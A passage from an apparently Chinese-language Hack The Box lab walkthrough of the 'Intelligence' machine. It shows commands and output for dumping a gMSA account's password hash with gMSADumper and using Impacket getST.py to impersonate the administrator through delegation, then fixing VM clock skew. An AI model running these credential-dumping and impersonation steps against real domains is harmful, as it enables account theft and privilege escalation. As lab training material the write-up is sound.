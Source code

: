 我们有一个受信任的组管理服务帐户，可委托给 WWW。有了 Ted 的访问权限，我们就可以使用[GMS dumper](https://github.com/micahvandeusen/gMSADumper)获取那个账户的散列值:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# wget [https://raw.githubusercontent.com/micahvandeusen/gMSADumper/main/gMSADumper.py](https://raw.githubusercontent.com/micahvandeusen/gMSADumper/main/gMSADumper.py)--2021-10-08 15:12:07--  https://raw.githubusercontent.com/micahvandeusen/gMSADumper/main/gMSADumper.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4609 (4.5K) [text/plain]
Saving to: ‘gMSADumper.py’
gMSADumper.py      100%[==================================================================>]   4.50K  --.-KB/s    in 0.001s  
2021-10-08 15:12:07 (3.61 MB/s) - ‘gMSADumper.py’ saved [4609/4609]

┌──(root💀kali)-[~/htb/intelligence]
└─# python3 gMSADumper.py -u Ted.Graves -p <HIDDEN> -d intelligence.htbUsers or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::d170ae<HIDDEN>e12dd621
```

# 打包服务票

利用服务帐户的散列，我们可以使用 [Impacket](https://github.com/SecureAuthCorp/impacket) getST.py 脚本来请求服务票证，同时模拟管理员:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# python3 /usr/share/doc/python3-impacket/examples/getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :d170ae<HIDDEN>e12dd621 -impersonate administratorImpacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[*] Getting TGT for user
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

# 时间偏差修正

我的虚拟机的时钟必须在域控制器的几分钟之内，所以首先我们需要同步它们。这太痛苦了！

关闭虚拟机，然后从主机，对我来说是 Windows 10 你需要禁用时间同步。打开 PowerShell 并键入以下内容:

```
PS C:\Program Files\Oracle\VirtualBox> .\VBoxManage.exe setextradata "Kali-Linux-2021.3-vbox-amd64" "VBoxInternal/Devices/VMMDev/0/Config/GetHostTimeDisabled" 1
```

现在启动虚拟机备份并安装 ntupdate 和 chrony:

```
┌──(root💀kali)-[~]
└─# apt install ntpdate chronyReading package lists... Done
Building dependency tree... Done
Reading state information... Done
chrony is already the newest version (4.1-3).
ntpdate is already the newest version (1:4.2.8p15+dfsg-1).
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
```
